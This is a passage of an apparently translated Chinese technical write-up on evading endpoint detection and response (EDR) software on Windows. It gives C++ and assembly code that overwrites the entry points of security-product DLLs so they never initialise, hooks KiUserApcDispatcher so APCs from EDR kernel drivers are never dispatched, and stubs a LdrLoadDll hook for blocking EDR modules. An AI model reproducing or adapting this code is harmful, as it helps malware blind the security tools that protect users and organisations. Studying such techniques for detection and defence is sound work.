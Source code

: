 ```plain
        PLDR_DATA_TABLE_ENTRY2 module_entry = CONTAINING_RECORD(list_entry, LDR_DATA_TABLE_ENTRY2, InMemoryOrderLinks);

        // only the below DLLs should be loaded this early, anything else is probably a security product
        if (SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"ntdll.dll") != 0 &&
            SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"kernel32.dll") != 0 &&
            SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"kernelbase.dll") != 0) {

            module_entry->EntryPoint = &EdrParadise;
        }

        list_entry = list_entry->Flink;
    }
}
```

### 禁用 APC 调度程序

当 APCs 排队到线程时，它们会被 ntdll !KiUserApcDispatcher() 处理，然后调用 ntdll!NtContinue() 将线程返回到其原始上下文。通过挂钩 KiUserApcDispatcher 并将其替换为我们自己的函数，该函数仅在循环中调用 NtContinue()，任何 APC 都不能排队到我们的进程中（包括来自 EDR 内核驱动程序的 APC）。

```plain
; simple APC dispatcher that does everything except dispatch APCs
KiUserApcDispatcher PROC
  _loop:
    call GetNtContinue
    mov rcx, rsp
    mov rdx, 1
    call rax
    jmp _loop
  ret
KiUserApcDispatcher ENDP
```

### 代理 LdrLoadDll 调用

通过在 ntdll!LdrLoadDll() 上放置一个钩子，我们可以监视正在加载的 DLL。如果任何 EDR 尝试使用 LdrLoadDll 加载其 DLL，我们可以卸载或禁用它。理想情况下，我们可能想要挂钩 ntdll!LdrpLoadDll()，它是较低级别的，由一些 EDR 直接调用，但为了简单起见，我们将只使用 LdrLoadDll。

```plain
// we can use this hook to prevent new modules from being loaded (though with both EDRs I tested, we don't need to)
NTSTATUS WINAPI LdrLoadDllHook(PWSTR search_path, PULONG dll_characteristics, UNICODE_STRING* dll_name, PVOID* base_address) {

    //todo: DLL create a list of DLLs to either be allowed or disallowed

    return OriginalLdrLoadDll(search_path, dll_characteristics, dll_name, base_address);
}
```
